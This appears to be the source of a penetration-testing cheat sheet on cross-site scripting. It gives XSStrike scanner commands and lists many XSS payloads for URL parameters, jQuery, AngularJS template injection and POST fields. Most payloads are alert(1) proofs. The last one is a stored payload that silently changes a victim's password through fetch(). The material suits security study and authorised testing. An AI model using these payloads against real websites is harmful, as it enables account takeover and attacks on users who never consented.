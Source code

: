 ```yaml
---
title: Cross-Site Scripting (XSS)
desc: 
tags: [Burp, Cross, Site, Web, XSS]
alts: [Cookie-Hijacking]
render_with_liquid: true
---
```


{% raw %}

## Automation

- **[XSStrike](https://github.com/s0md3v/XSStrike){:target="_blank"}**

    XSS scanner.

    ```sh
    # GET request
    python xsstrike.py -u http://vulnerable.com/?param=test

    # POST reqeust
    python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"

    # data as JSON
    python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
    ```

<br />


## Manual

1. **URL Parameters**

    1. **Common Payloads**

        ```
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q=<script>alert(1)</script>
        /?q="><script>alert(1)</script>
        /?q='></script><script>alert(1)</script>

        /?q=" src=1 onerror=alert(1)>
        /?q=<><img src=1 onerror=alert(1)>
        /?q="><img src=1 onerror=alert(1)>
        /?q="></span><img src=1 onerror=alert(1)>
        /?q="><svg onload=alert(1)>

        /?q=javascript:alert(1)
        /?q=\"-alert(1)//

        /?q=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

        /?q=<a onmouseover=alert(1)>click</a>
        /?q=" onmouseleave='alert(1)'">

        /?q=<img src="jav ascript:alert(1)">
        /?q=<img src="jav&#x09;ascript:alert(1)">
        /?q=<img src="jav&#x0A;ascript:alert(1)">


        /?q=&subparam=--><script>alert(1)</script>
        /index.php#value='><script>alert(1)</script>
        ```

    2. **JQuery**

        ```
        https://vulnerable.com/#<img src=1 onerror=alert(1)>
        <iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
        ```

    3. **AngularJS**

        If you find **"<html ng-app>"** or **"<div ng-app>"** in the HTML source code, you may be able to abuse it by XSS.

        ```
        https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
        ```

2. **POST Parameters**


    POST params are almost the same as URL params, so try the common payloads of section 1.  
    Ant the following ones.

    ```
    title=<a href="http://localhost/newUser?username=test&password=test">test</a>&comment=hello
    ```

    1. **Change User Profiles**

        If the website allows users to change passwords from the URL params...

        ```
        /profile?new_password=password
        ```

        Submit the payload to user input forms such as messages, comments, forums...

        ```
        <script>fetch('/profile?new_password=password');</script>
        ```

{% endraw %}